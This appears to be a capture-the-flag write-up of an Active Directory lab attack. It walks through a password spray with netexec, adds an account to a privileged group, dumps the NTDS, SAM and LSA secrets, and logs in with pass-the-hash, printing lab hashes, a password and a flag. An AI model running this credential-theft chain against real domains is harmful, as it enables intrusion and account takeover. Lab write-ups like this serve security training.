






# Initial Enumeration

As usual I will perform a full enumeration of all the TCP ports and immediately i can see that this is the DC of this realm:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-03-30 08:00:21Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: work.junon.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: work.junon.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-03-30T08:01:57+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=S021M005.work.junon.vl
| Issuer: commonName=S021M005.work.junon.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-29T03:58:01
| Not valid after:  2026-09-28T03:58:01
| MD5:     781d bbe5 63cf d78a 8047 074d 19fe fd59
| SHA-1:   56d2 8a23 5012 0791 b3ef a703 c7bc e889 6e18 9037
| SHA-256: 9a6f 7efa a05e 1032 d9d8 c240 d5ad 87b0 9e60 c2c8 239f 05ee 342d a427 470a c4ab
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQXjKWGuLL6ZdBDP/6CF88fTANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZTMDIxTTAwNS53b3JrLmp1bm9uLnZsMB4XDTI2MDMyOTAzNTgw
| MVoXDTI2MDkyODAzNTgwMVowITEfMB0GA1UEAxMWUzAyMU0wMDUud29yay5qdW5v
| bi52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPZwR1QXNvkJuueH
| nhpcI0ay1rsfFijwrpab7U5PYYlvR/6VerIPT/N5qJPFSWf4gqeHXrW+A10niUgH
| kqfenKdP76+wqAZH02Dky9wey5Iioiksg+hZ21usvxO4eyHhGUlOoe8ne+yLZNlB
| Aflm75sZcJDg4o84BZJa/8IRT7sxtyU/r4BHtGE4f9QCV3VGdTSTAW6i0zWyv9yh
| HnIXU/hI7834AMbJa+8d1oc6YtWoll1CWbmlJO8mhOBnetv1+N9lcl6yOA63s+V4
| 1O6yHQxu2XJ6PI+5FE+4j8LLqDrAEEFjIkKPzim7niCutJXIXbDaBgDlkP4365i7
| tuf5NI0CAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQDZgSh+4eEAJTrNE46FGzSDITeEODDksSRE2Wl3
| 1a8EpxNh4DghUwXOXW68MSFXsvIe0QadUK+5Ht+SJyDxI1G9w4mdPdBrHnYq1wZN
| tp6eGLwWNzfj6NtwczJ6WP/Ml191p03rPDvhr3StCVdOIF31b0+ry+mx0VfjxLT4
| h1nl+9yuOEwL3IxtcgXtKk8QSgc68D1hlLNSpDvYW10wdkl+TBM9xoRwWriDFuBG
| xWJNxSOyURwoxlqEqc6FhYzCZ7FelX+FGw4M+fCg89JJFXutBTwQDP8GF1qtluo0
| 4kI5J/tNLwYBUQ5EaqtUvJ1DaDXXL7o33ViZ7qC6kdyGKsfR
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: WORK-JUNON
|   NetBIOS_Domain_Name: WORK-JUNON
|   NetBIOS_Computer_Name: S021M005
|   DNS_Domain_Name: work.junon.vl
|   DNS_Computer_Name: S021M005.work.junon.vl
|   DNS_Tree_Name: work.junon.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-30T08:01:17+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
8531/tcp  open  unknown       syn-ack ttl 64
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
51374/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/30%OT=53%CT=%CU=%PV=Y%G=N%TM=69CA2DF4%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10C%TI=RD%CI=I%II=RI%TS=A)
SEQ(SP=FF%GCD=1%ISR=10A%TI=RD%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 0.839 days (since Sun Mar 29 13:54:20 2026)
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: Host: S021M005; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21501/tcp): CLEAN (Timeout)
|   Check 2 (port 49102/tcp): CLEAN (Timeout)
|   Check 3 (port 16178/udp): CLEAN (Timeout)
|   Check 4 (port 30157/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: S021M005, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:c8:55 (VMware)
| Names:
|   S021M005<00>         Flags: <unique><active>
|   WORK-JUNON<00>       Flags: <group><active>
|   WORK-JUNON<1c>       Flags: <group><active>
|   S021M005<20>         Flags: <unique><active>
|   WORK-JUNON<1b>       Flags: <unique><active>
| Statistics:
|   00 50 56 94 c8 55 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-30T08:01:18
|_  start_date: N/A

```

# AD

Knowing from before that this might be the DC of the Work domain I decided to password spray with some of the credentials I guessed and I have the first foothold

```
└─$ proxychains netexec smb 172.16.21.10 -u initial_users.txt -p 'Junon2023' 2>/dev/null
SMB         172.16.21.10    445    S021M005         [*] Windows Server 2022 Build 20348 x64 (name:S021M005) (domain:work.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Katie.Shaw:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Marion.Green:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Abdul.Evans:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Hollie.Dodd:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Stanley.Lee:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Julia.Harvey:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Jacqueline.Harrison:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Rachael.Winter:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Martyn.Mason:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Elliott.Nixon:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Leonard.Chandler:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Gillian.Baldwin:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Justin.Thompson:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Sharon.Wilkinson:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Abdul.Bell:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Wendy.Vincent:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Terry.James:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Danny.Houghton:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Lorraine.Wright:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Kate.Morris:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Glenn.Wood:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Sandra.Hopkins:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Leslie.Brown:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Geraldine.Shaw:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Jay.Griffin:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Carolyn.Mitchell:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Fiona.Stewart:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [-] work.junon.vl\Dylan.Mills:Junon2023 STATUS_LOGON_FAILURE 
SMB         172.16.21.10    445    S021M005         [+] work.junon.vl\Roger.Ball:Junon2023
```

Now the user has write rights over several shares on the server S021M215:

```bash
MB         172.16.21.195   445    S021M015         Share           Permissions     Remark
SMB         172.16.21.195   445    S021M015         -----           -----------     ------
SMB         172.16.21.195   445    S021M015         ADMIN$                          Remote Admin
SMB         172.16.21.195   445    S021M015         C$                              Default share
SMB         172.16.21.195   445    S021M015         deployment$     READ,WRITE      deployment share
SMB         172.16.21.195   445    S021M015         finance$        READ,WRITE      
SMB         172.16.21.195   445    S021M015         homes           READ,WRITE      user home directories
SMB         172.16.21.195   445    S021M015         install$        READ,WRITE      
SMB         172.16.21.195   445    S021M015         IPC$            READ            Remote IPC
SMB         172.16.21.195   445    S021M015         it              READ,WRITE      
SMB         172.16.21.195   445    S021M015         transfer        READ,WRITE      
SMB         172.16.21.195   445    S021M015         UpdateServicesPackages READ            A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
SMB         172.16.21.195   445    S021M015         WsusContent     READ            A network share to be used by Local Publishing to place published content on this WSUS system.
SMB         172.16.21.195   445    S021M015         WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

A dump of the whole user list shows traces about the default credentals which by the way are not used by anyone else:



Next I will ingest the data in Bloodhound and check from there, like Roger is part of the IT group which might explain why i can modify the shares on the server S021M015?


Same applies for the other suer named Connor:  


This Jay Griffin is very interesting:  


I will temporary move on the FILE System.

# Back on Track

Now I can see that the HD account for Fiona has more permissions:


She is part of the account operators which means I should be able to add myself to admins? But the short answer is no but she can also:  


Another alternative is this:



This is even easier:



```bash
 ❯ Add-DomainGroupMember -Members Yovecio -Identity "PASSWORD-AUDIT"            
[2026-03-30 18:00:35] [Add-DomainGroupMember] Successfully added Yovecio to group PASSWORD-AUDIT
[2026-03-30 18:00:35] User Yovecio successfully added to PASSWORD-AUDIT
╭─LDAP─[S021M005.work.junon.vl]─[WORK-JUNON\hd-fstewart]-[NS:172.16.21.10]
╰─ ❯ 

```

And this is the snippet of the hashes:

```bash
mi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.21.10 -u yovecio -p 'Coglione1!' --ntds    
SMB         172.16.21.10    445    S021M005         [*] Windows Server 2022 Build 20348 x64 (name:S021M005) (domain:work.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.10    445    S021M005         [+] work.junon.vl\yovecio:Coglione1! 
SMB         172.16.21.10    445    S021M005         [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         172.16.21.10    445    S021M005         [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.21.10    445    S021M005         Administrator:500:aad3b435b51404eeaad3b435b51404ee:b976dde1bcbbf31cbdab60d2a5a5449d:::
SMB         172.16.21.10    445    S021M005         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.10    445    S021M005         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bc6cfd11862244676f00002ed3ba71b8:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\vdi_user:1106:aad3b435b51404eeaad3b435b51404ee:74634b484673729822b167cd43e93e22:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Katie.Shaw:1108:aad3b435b51404eeaad3b435b51404ee:f6abd943d5dff9635ccfa2311700e242:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Marion.Green:1109:aad3b435b51404eeaad3b435b51404ee:b2e0a1c0b8ee0ddd01486717251ceaee:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Abdul.Evans:1110:aad3b435b51404eeaad3b435b51404ee:8e7e44a0197b693ecd102eeb2aa4a793:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Hollie.Dodd:1111:aad3b435b51404eeaad3b435b51404ee:d57578256bafc6119f8ff5189b89fa17:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Stanley.Lee:1112:aad3b435b51404eeaad3b435b51404ee:3dcaaa2b48b0f7c4b4525a12d5ae8772:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Julia.Harvey:1113:aad3b435b51404eeaad3b435b51404ee:c9171aaf6b558b6e87de13fa74f0f687:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Jacqueline.Harrison:1114:aad3b435b51404eeaad3b435b51404ee:4b95e68a38cae43281042de6a8ee4c90:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Rachael.Winter:1115:aad3b435b51404eeaad3b435b51404ee:bc8249248ddb65eeeddff208a48ec2ba:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Martyn.Mason:1116:aad3b435b51404eeaad3b435b51404ee:d93c389466424acd401d574cec391236:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Elliott.Nixon:1117:aad3b435b51404eeaad3b435b51404ee:00ce37b926669f208c01af7c9f618ad1:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Leonard.Chandler:1119:aad3b435b51404eeaad3b435b51404ee:13e17d96b89933f7ed936f29306cc519:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Gillian.Baldwin:1120:aad3b435b51404eeaad3b435b51404ee:65832bead2741237036c63746e9aafb7:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Justin.Thompson:1121:aad3b435b51404eeaad3b435b51404ee:b887e303467d61c608bc092b411e16d2:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Sharon.Wilkinson:1122:aad3b435b51404eeaad3b435b51404ee:fed5a27d32fc55662012819cc1f73eec:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Abdul.Bell:1123:aad3b435b51404eeaad3b435b51404ee:433be8b3a0d3abd808b89b98715b825f:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Wendy.Vincent:1124:aad3b435b51404eeaad3b435b51404ee:4210e68078724566518b8ad3f197a4a6:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Terry.James:1125:aad3b435b51404eeaad3b435b51404ee:8de309a3d2bcf2aaf759187bf1e438d0:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Danny.Houghton:1126:aad3b435b51404eeaad3b435b51404ee:eaa119a61937f6eb70b1e53d21ae18db:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Lorraine.Wright:1127:aad3b435b51404eeaad3b435b51404ee:a08b79c01721cf7557b880f8931065c3:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Kate.Morris:1128:aad3b435b51404eeaad3b435b51404ee:5d4d1612f20614cb49ffdf0c6f7377f7:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Glenn.Wood:1129:aad3b435b51404eeaad3b435b51404ee:caad6325e7fba8612abafba8ed3e1b76:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Sandra.Hopkins:1130:aad3b435b51404eeaad3b435b51404ee:d7f2623cfeb162a5cf4f09ae4a1ca08f:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Leslie.Brown:1131:aad3b435b51404eeaad3b435b51404ee:b1426a8bd67ac17a560ec6c077f7157f:::
SMB         172.16.21.10    445    S021M005         work.junon.vl\Geraldine.Shaw:1132:aad3b435b51404eeaad3b435b51404ee:f7e57d2e7c9f079421d44c948fcc2260:::

```

And I have another flag:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
WUTAI{b9d501b890863e28f125912b89de0c7e}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

And I can see the new subnet:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ipconfig.exe

Windows IP Configuration


Ethernet adapter Internal-2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::2161:97a:95ab:489d%5
   IPv4 Address. . . . . . . . . . . : 172.16.22.10
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Internal-1:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::d5b2:e179:f559:7e52%14
   IPv4 Address. . . . . . . . . . . : 172.16.21.10
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.21.50
evil-winrm-py PS C:\Users\Administrator\Desktop>


```

And some more credentials:

```bash
──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.21.10 -u Administrator -H b976dde1bcbbf31cbdab60d2a5a5449d --sam --lsa --dpapi
SMB         172.16.21.10    445    S021M005         [*] Windows Server 2022 Build 20348 x64 (name:S021M005) (domain:work.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.10    445    S021M005         [+] work.junon.vl\Administrator:b976dde1bcbbf31cbdab60d2a5a5449d (Pwn3d!)
SMB         172.16.21.10    445    S021M005         [*] Dumping SAM hashes
SMB         172.16.21.10    445    S021M005         Administrator:500:aad3b435b51404eeaad3b435b51404ee:b976dde1bcbbf31cbdab60d2a5a5449d:::
SMB         172.16.21.10    445    S021M005         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.10    445    S021M005         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[18:06:48] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                 regsecrets.py:436
SMB         172.16.21.10    445    S021M005         [+] Added 3 SAM hashes to the database
SMB         172.16.21.10    445    S021M005         [+] Dumping LSA secrets
SMB         172.16.21.10    445    S021M005         WORK-JUNON\S021M005$:aes256-cts-hmac-sha1-96:8aa839d26736736d49f60dba8ab971f46b931e176daab7b82ed4e2b88c51fc33
SMB         172.16.21.10    445    S021M005         WORK-JUNON\S021M005$:aes128-cts-hmac-sha1-96:8273526dc038df4c87747f4d21575ab9
